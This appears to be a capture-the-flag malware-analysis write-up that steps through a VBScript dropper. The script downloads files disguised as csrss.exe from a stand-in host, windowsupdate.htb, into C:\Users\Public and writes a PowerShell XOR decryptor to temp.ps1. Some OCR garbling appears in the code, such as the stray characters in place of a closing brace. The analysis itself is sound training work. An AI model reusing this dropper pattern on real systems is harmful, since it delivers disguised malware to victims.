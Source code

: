 There is a lot going on here, so lets step through it.
```vb
Option Explicit
Dim objShell, objFSO, objHTTPDim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePathDim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"
```
Here we save some strings as variables. We can download these URL's to check out later.

```vb
If Not objFSO.FileExists(strDownloadPath1) Then    
	DownloadFile strURL1, strDownloadPath1
End If
```
Here we see the script checks if a file exists before downloading the corresponding file, and a similar pattern is repeated for all of the URL's from earlier.

```vb
strPowerShellScript = _"param (" & vbCrLf & _"    [string]$FilePath," & vbCrLf & _"    [string]$KeyPath" & vbCrLf & _")" & vbCrLf & _"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _"$keyLength = $key.Length" & vbCrLf & _"for ($i = 0; $i -lt $fileContent.Length; $i++) " & vbCrLf & _"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _"¿~" & vbCrLf & _"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf
```
Here the program defines a powershell script. Lets clean this up by removing all the `vbCrLf` constants, replacing them with newlines:

```powershell
param ( 
     [string]$FilePath, 
     [string]$KeyPath 
 ) 
 $key = [System.IO.File]::ReadAllBytes($KeyPath) 
 $fileContent = [System.IO.File]::ReadAllBytes($FilePath) 
 $keyLength = $key.Length 
 for ($i = 0; $i -lt $fileContent.Length; $i++)  
     $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength] 
 ¿~ 
 [System.IO.File]::WriteAllBytes($FilePath, $fileContent)

```
We can see this seems to be a script that decrypts a file by xoring it with a key file.

```vb
Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then    
	WScript.Echo "Error creating PowerShell script file: " & Err.Description    
	WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close
```
Next the file writes the powershell script to `temp.ps1`.
